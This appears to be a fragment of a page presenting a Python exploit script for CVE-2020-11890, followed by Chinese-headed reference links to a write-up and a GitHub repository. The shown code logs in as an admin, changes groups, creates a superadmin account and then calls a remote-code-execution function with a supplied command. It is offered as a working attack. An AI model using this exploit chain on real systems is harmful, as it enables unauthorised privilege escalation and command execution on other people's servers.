        # password of superadmin
        psuper = format(str(args['passwordsuper']))
        # email of superadmin
        esuper = format(str(args['emailsuper']))
        # session
        sess = requests.Session()
        if not try_admin_login(sess, url, uname, upass): sys.exit()
        token = checkAdmin(url, sess)
        if not changeGroup(url, sess, token):
            print "[-] Sorry,exploit fail!"
            sys.exit()
        sess = create_user(url, sess, usuper, psuper, esuper, token)
        token = checkSuperAdmin(url, sess)
        # Now you are Super-admin
        if token:
            # call RCE
            changeGroupDefault(url, sess, token)  # easy to view :))
            rce(sess, url, command, token)


    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://xz.aliyun.com/t/7709\#toc-1> https://github.com/HoangKien1020/CVE-2020-11890
